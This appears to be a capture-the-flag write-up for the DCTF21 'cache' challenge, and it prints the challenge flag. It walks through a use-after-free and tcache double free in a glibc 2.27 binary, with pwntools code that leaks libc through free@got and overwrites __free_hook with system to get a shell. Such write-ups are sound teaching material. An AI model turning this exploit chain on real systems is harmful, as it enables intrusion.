








# # dctf21.cyberedu.ro - cache

Origin challenge link: https://dctf21.cyberedu.ro/

But you can also download challenge in my repo: [cache.zip](cache.zip)

There will be 2 file in zip:

- libc.so.6

- vuln

Download the zip, patch file using `patchelf` or `pwninit` and let's start!

# 1. Find bug

First, we will use `file` to check for basic information:

```
vuln: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=36368184a74a333839f1fe8c862b7ec949f2f6e1, not stripped
```

This is a 64-bit file without being stripped. Next, we will use `checksec` to check for the security of file:

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  './'
```

We can see that just `NX enabled`, everything else is
not especially `Partial RELRO`, with it we can overwrite any @got as we want. We will continue by checking the version of the provided libc to know if it has any bug:



Interesting! With the version 2.27, we know that tcache is enabled and it doesn't raise error if we free the same chunk twice --> **Double Free**

Finally, we will use ghidra to decompile the program to know how it works. We can see that there are 2 interesting function getFlag() and main():

getFlag()



This function will help us get the flag.

Because main() is so long so I just show snippets of the important parts in main(). Function free() is the interesting code we should have a look first:



Well, bug just comes out when we free and it's right. The program didn't remove the pointer point to freed chunk --> **Use After Free**. 

Next, we can see that the program just have 2 variable which contain pointer to chunk after malloc(0x10), so we have maximum 2 chunk. With bug **Use After Free**, we can print value from a freed chunk and abuse tcache link list by edit forward pointer.

The last thing we know that admin variable will contain function getFlag() at admin[0] and function admin_info() at admin[1], which will print out when we input 3 at menu. That's all bugs we can get and now, let's move on brainstorming!

# 2. Brainstorming

- First idea:

We know that admin[1] will be executed when we want to print admin info. So with **Use After Free** and **Double Free**, we make user and admin point to the same chunk, then overwrite admin[1], via user variable, with address of function getFlag() and we get the flag. 

After successfully exploited, I recognized it's a **Rabbit Hole** so I have the next idea.

- Second idea (After done first idea):

We know that there are maximun 2 chunk so we can **hardly** exploit by changing chunk size to make a larger chunk (when it's freed will go to unsorted bin and program will write libc main arena address to that large chunk, then we use **Use After Free** bug to print it out). 

So we will abuse tcache link list by overwriting forward pointer to any @got and print the address out. Then calculate libc base address and system, then overwrite `__free_hook` with system and we get the shell (we will not use one gadget because it will be more complicated)

- Summary:

  1. Leaking libc address

  2. Overwrite `__free_hook` and spawn shell

# 3. Exploit

For convinient exploitation, I will write these function corresponding to 7 options in the menu of program:

<details>
<summary>Code snippet</summary>
<p>

```
def newadmin():
    p.sendlineafter(b'Choice:', b'1')

def newuser(name):
    p.sendlineafter(b'Choice:', b'2')
    p.sendafter(b'your name:', name)

def admininfo():
    p.sendlineafter(b'Choice:', b'3')
    return p.recvline()

def editname(name):
    p.sendlineafter(b'Choice:', b'4')
    p.sendafter(b'your name:', name)

def printname():
    p.sendlineafter(b'Choice:', b'5')
    return p.recvline()

def deleteadmin():
    p.sendlineafter(b'Choice:', b'6')

def deleteuser():
    p.sendlineafter(b'Choice:', b'7')
```

</p>
</details>

### Exploit using first idea (**Rabbit Hole**)

We will abuse tcache link list to make admin and user point to the same chunk:

```
newuser(b'0'*8)
deleteuser()       # Small chunk will go to tcache
newadmin()         # Malloc with same size will take the freed chunk back to admin
```

And using **Use After Free**, we edit the admin[1] with getFlag(), then print admin info to execute getFlag():

```
getFlag = 0x0040084a
editname(p64(0) + p64(getFlag))
print(admininfo())
```

Now connect to server to get flag:



Oh we got a **Rabbit Hole** and the youtube link is just a normal song, damm! So now we will move to second idea.

### Exploit using second idea

- Stage 1: Leaking libc address

First, we will abuse the tcache link list by **Double Free** the user chunk, then **User After Free** to overwrite forward pointer with free@got. Why I use free@got instead of puts@got? It is because we need to enter name when create new user so @got address will change. If we use puts@got, then after malloc it will run back to main and puts@plt, then program crash, while free just run when we need.

```
# Double free
newuser(b'AAAAAAAA')
deleteuser()
deleteuser()

# Use After Free
free_got = 0x602018         # readelf -r vuln | grep free
editname(p64(free_got))
```

Next, we malloc 2 chunks, one admin (to reset tcache) and one user (to leak address). We also know that the LSB of libc address stay remain for every run so overwrite the LSB of free@got is totally fine, we will write that LSB back when we know the correct address:

```
newadmin()                  # Address of heap
newuser(b'A')               # Address of free@got
```

Now we just print out the free address and we can calculate libc base address, then we fix the free@got which we changed LSB when creating new user `newuser(b'A')` above:

```
# Leak address
free_addr = printname().split(b'name is ')[1][1:-1]
free_addr = u64(b'\x50' + free_addr + b'\x00\x00')       # Using GDB to get the LSB byte of free address
log.success("Free address: " + hex(free_addr))
libc.address = free_addr - libc.sym['free']
log.success('Libc base: ' + hex(libc.address))

# Correct the free@got
editname(p64(libc.sym['free']))
```

After having overwrited forward pointer into free@got and malloc 2 chunk, tcache misunderstand the previous address of free@got is size and it save that size for later use:



So if we malloc again (admin and user malloc the same size), it will take the address of free (not free@got) and we cannot change back to heap again. 

So that's why we need to have a chunk in heap to recover the tcache by freeing the heap admin (it will go to tcache), then we malloc once (take from tcache) and **Double Free**, the tcache will be recovered.

```
# Free admin
deleteadmin()

# Malloc and double free
newuser(b'A'*8)
deleteuser()
deleteuser()
```

After freed admin:



After malloc user and **Double Free**:



The tcache count and address is correct now. Let's move on last stage: Overwrite `__free_hook` and spawn shell!

- Stage 2: Overwrite `__free_hook` and spawn shell

For now, we will use again the above technique, overwriting forward pointer to overwrite `__free_hook` into system, then free the chunk with the string `b'/bin/sh\x00'` in that chunk and we get the shell:

```
# Overwrite forward pointer
editname(p64(libc.sym['__free_hook']))

# Overwrite __free_hook
newuser(b'A'*8)
newuser(p64(libc.sym['system']))

# Create chunk contains b'/bin/sh\x00'
newuser(b'/bin/sh\x00')

# Free will check if __free_hook is null
# If not ('cause we overwrited), execute the function in 
# __free_hook, which is system
deleteuser()
```

Full code: [solve.py](solve.py)

# 4. Get Flag



Flag is `CTF{ab7bdaa3e5ed17ed326fef624a2d95d6ea62caa3dba6d1e5493936c362eed40e}`


